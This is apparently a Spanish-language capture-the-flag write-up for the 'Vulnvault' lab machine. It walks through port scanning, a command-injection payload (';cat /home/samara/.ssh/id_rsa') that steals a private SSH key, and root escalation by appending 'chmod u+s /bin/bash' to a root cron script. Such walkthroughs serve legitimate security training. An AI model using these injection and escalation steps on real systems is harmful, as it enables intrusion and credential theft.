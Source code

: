 ```yaml
---
description: '✍️ Autor: d1se0🔍 Dificultad: Fácil  📅 Fecha de creación: 25/08/2024'
---
```


# Vulnvault

### 🔍 **RECONOCIMIENTO**

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 172.17.0.2
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (142).png" alt=""><figcaption></figcaption></figure>

A continuación, se realiza el comando:

```bash
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (144).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo, el puerto **22** perteneciente al servicio **SSH** y el puerto **80** perteneciente al servicio **HTTP** están abiertos, por lo que se procederá a indagar más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80 -v 172.17.0.2
```

para obtener más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (146).png" alt=""><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora exploramos el servicio **HTTP**. Se ingresó la dirección IP en el navegador, lo que llevó a que la página web sobre un centro de operaciones.

<figure><img src="../../.gitbook/assets/image (147).png" alt=""><figcaption></figcaption></figure>

Parece ser que la página está diseñada principalmente para la generación de reportes y la subida de archivos. Sin embargo, tras explorarla un poco más y hacer algunas pruebas, descubrí algo más interesante que podría ser útil ya que con la subida de archivos no tuvo éxito.

<figure><img src="../../.gitbook/assets/image (148).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Dado que hemos logrado la capacidad de ejecutar comandos de forma remota, el siguiente paso será leer el contenido del archivo `/etc/passwd` para identificar los usuarios presentes en el sistema. Para ello, simplemente ejecutamos el siguiente comando.

<figure><img src="../../.gitbook/assets/image (149).png" alt=""><figcaption></figcaption></figure>

Observamos que existe un usuario llamado **samara** en el sistema. Con esta información, podemos intentar acceder a la clave privada de SSH del usuario. Para ello, podríamos ejecutar el siguiente comando.

```
;cat /home/samara/.ssh/id_rsa
```

<figure><img src="../../.gitbook/assets/image (150).png" alt=""><figcaption></figcaption></figure>

Una vez que hemos obtenido la clave privada de SSH, la copiamos en un archivo en nuestra máquina local, nombrándolo `id_rsa`. A continuación, le asignamos los permisos adecuados con el siguiente comando:

```bash
chmod 600 id_rsa
```

Con los permisos establecidos, nos conectamos al servidor mediante SSH utilizando la clave privada, ejecutando el siguiente comando:

```bash
ssh -i id_rsa samara@172.17.0.2
```

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root.**&#x20;

Ahora que estamos dentro como el usuario "samara", encontramos un mensaje de root, pero no contiene nada relevante. Tras investigar un poco más, se me ocurre usar `pspy` para monitorear procesos en busca de alguna actividad oculta. Para ello, seguimos estos pasos:

1. Descargamos `pspy` en la máquina objetivo utilizando `wget`.
2.  Asignamos los permisos de ejecución con:

    ```bash
    chmod +x pspy64
    ```
3.  Finalmente, ejecutamos `pspy` con el siguiente comando:

    ```bash
    ./pspy64
    ```

Observamos que un script llamado `echo.sh` se ejecuta periódicamente con privilegios de root:

```bash
2024/08/26 23:31:32 CMD: UID=0     PID=626434 | /bin/bash /usr/local/bin/echo.sh
```

Para aprovechar esto, editamos el script utilizando `nano` y añadimos la siguiente línea al final:

```bash
chmod u+s /bin/bash
```

Guardamos los cambios con `Ctrl+O`, presionamos `Enter`, y salimos del editor con `Ctrl+X`. Ahora, solo necesitamos ejecutar el siguiente comando para obtener privilegios de root.

```bash
bash -p
```

Y así, ya somos **root**.
